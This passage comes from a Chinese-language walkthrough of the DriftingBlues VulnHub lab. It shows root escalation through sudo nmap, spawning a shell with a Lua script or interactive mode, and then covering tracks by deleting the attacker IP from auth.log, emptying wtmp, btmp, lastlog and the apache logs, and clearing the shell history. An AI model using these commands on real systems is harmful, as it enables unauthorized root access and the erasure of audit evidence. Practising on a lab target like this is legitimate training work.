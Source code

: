 发现可以，不需要密码

![](D:\stu\vulnhub\DriftingBlues靶场\pic-2\25.jpg)

这里就可以使用`nmap`通过`sudo`进行提权，因为这里不需要密码了。

那么如果不知道如何使用提权，可以查看网站`gtfobins.github.io`搜索使用

![](D:\stu\vulnhub\DriftingBlues靶场\pic-2\26.jpg)

根据条件满足去使用，或者两种方法都测试也行，反正方法不多

```shell
第一种方式，是nmap的输入不会回显，才能使用
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

第二种方式，需要nmap的版本对应2.02--5.21，可通过nmap --version查看
sudo nmap --interactive
nmap> !sh

这里的靶机nmap版本大于提权版本，所以使用第一种提权方式
第一种提权，在输入命令时，是看不到的，只能看到输出
```

![](D:\stu\vulnhub\DriftingBlues靶场\pic-2\27.jpg)

# 清除痕迹

###### 网站恢复

把网站中的内容恢复原状，把复制的脚本内容删除，然后恢复插件的原本状态

可以在当前终端，或者网站执行

###### 各种日志清除

因为回显问题，所以这里不截图，放入命令

```shell
sed -i "/192.168.1.16/d" auth.log
echo > btmp
echo > lastlog
echo > wtmp
echo > apache2/access.log
echo > apache2>error.log
```

###### 历史记录清除

```shell
history -r 
history -c
```
